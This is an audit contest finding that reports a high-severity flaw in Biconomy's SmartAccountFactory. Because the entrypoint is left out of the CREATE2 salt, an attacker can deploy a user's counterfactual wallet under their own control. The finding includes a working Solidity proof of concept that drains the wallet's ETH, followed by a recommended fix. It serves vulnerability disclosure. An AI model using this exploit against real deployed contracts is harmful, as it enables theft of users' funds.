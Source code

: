 ## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- H-03

# [Attacker can gain control of counterfactual wallet](https://github.com/code-423n4/2023-01-biconomy-findings/issues/460) 

# Lines of code

https://github.com/code-423n4/2023-01-biconomy/blob/main/scw-contracts/contracts/smart-contract-wallet/SmartAccountFactory.sol#L33-L45


# Vulnerability details

A counterfactual wallet can be used by pre-generating its address using the `SmartAccountFactory.getAddressForCounterfactualWallet` function. This address can then be securely used (for example, sending funds to this address) knowing in advance that the user will later be able to deploy it at the same address to gain control.

However, an attacker can deploy the counterfactual wallet on behalf of the owner and use an arbitrary entrypoint:

https://github.com/code-423n4/2023-01-biconomy/blob/main/scw-contracts/contracts/smart-contract-wallet/SmartAccountFactory.sol#L33-L45

```solidity
function deployCounterFactualWallet(address _owner, address _entryPoint, address _handler, uint _index) public returns(address proxy){
    bytes32 salt = keccak256(abi.encodePacked(_owner, address(uint160(_index))));
    bytes memory deploymentData = abi.encodePacked(type(Proxy).creationCode, uint(uint160(_defaultImpl)));
    // solhint-disable-next-line no-inline-assembly
    assembly {
        proxy := create2(0x0, add(0x20, deploymentData), mload(deploymentData), salt)
    }
    require(address(proxy) != address(0), "Create2 call failed");
    // EOA + Version tracking
    emit SmartAccountCreated(proxy,_defaultImpl,_owner, VERSION, _index);
    BaseSmartAccount(proxy).init(_owner, _entryPoint, _handler);
    isAccountExist[proxy] = true;
}
```

As the entrypoint address doesn't take any role in the address generation (it isn't part of the salt or the init hash), then the attacker is able to use any arbitrary entrypoint while keeping the address the same as the pre-generated address.

## Impact

After the attacker has deployed the wallet with its own entrypoint, this contract can be used to execute any arbitrary call or code (using `delegatecall`) using the `execFromEntryPoint` function:

https://github.com/code-423n4/2023-01-biconomy/blob/main/scw-contracts/contracts/smart-contract-wallet/SmartAccount.sol#L489-L492

```solidity
function execFromEntryPoint(address dest, uint value, bytes calldata func, Enum.Operation operation, uint256 gasLimit) external onlyEntryPoint returns (bool success) {        
    success = execute(dest, value, func, operation, gasLimit);
    require(success, "Userop Failed");
}
```

This means the attacker has total control over the wallet, it can be used to steal any pre-existing funds in the wallet, change the owner, etc.

## PoC

In the following test, the attacker deploys the counterfactual wallet using the `StealEntryPoint` contract as the entrypoint, which is then used to steal any funds present in the wallet.

```solidity
contract StealEntryPoint {
    function steal(SmartAccount wallet) public {
        uint256 balance = address(wallet).balance;

        wallet.execFromEntryPoint(
            msg.sender, // address dest
            balance, // uint value
            "", // bytes calldata func
            Enum.Operation.Call, // Enum.Operation operation
            gasleft() // uint256 gasLimit
        );
    }
}

contract AuditTest is Test {
    bytes32 internal constant ACCOUNT_TX_TYPEHASH = 0xc2595443c361a1f264c73470b9410fd67ac953ebd1a3ae63a2f514f3f014cf07;

    uint256 bobPrivateKey = 0x123;
    uint256 attackerPrivateKey = 0x456;

    address deployer;
    address bob;
    address attacker;
    address entrypoint;
    address handler;

    SmartAccount public implementation;
    SmartAccountFactory public factory;
    MockToken public token;

    function setUp() public {
        deployer = makeAddr("deployer");
        bob = vm.addr(bobPrivateKey);
        attacker = vm.addr(attackerPrivateKey);
        entrypoint = makeAddr("entrypoint");
        handler = makeAddr("handler");

        vm.label(deployer, "deployer");
        vm.label(bob, "bob");
        vm.label(attacker, "attacker");

        vm.startPrank(deployer);
        implementation = new SmartAccount();
        factory = new SmartAccountFactory(address(implementation));
        token = new MockToken();
        vm.stopPrank();
    }
    
    function test_SmartAccountFactory_StealCounterfactualWallet() public {
        uint256 index = 0;
        address counterfactualWallet = factory.getAddressForCounterfactualWallet(bob, index);
        // Simulate Bob sends 1 ETH to the wallet
        uint256 amount = 1 ether;
        vm.deal(counterfactualWallet, amount);

        // Attacker deploys counterfactual wallet with a custom entrypoint (StealEntryPoint)
        vm.startPrank(attacker);

        StealEntryPoint stealer = new StealEntryPoint();

        address proxy = factory.deployCounterFactualWallet(bob, address(stealer), handler, index);
        SmartAccount wallet = SmartAccount(payable(proxy));

        // address is the same
        assertEq(address(wallet), counterfactualWallet);

        // trigger attack
        stealer.steal(wallet);

        vm.stopPrank();

        // Attacker has stolen the funds
        assertEq(address(wallet).balance, 0);
        assertEq(attacker.balance, amount);
    }
}
```

## Recommendation

This may need further discussion, but an easy fix would be to include the entrypoint as part of the salt. Note that the entrypoint used to generate the address must be kept the same and be used during the deployment of the counterfactual wallet.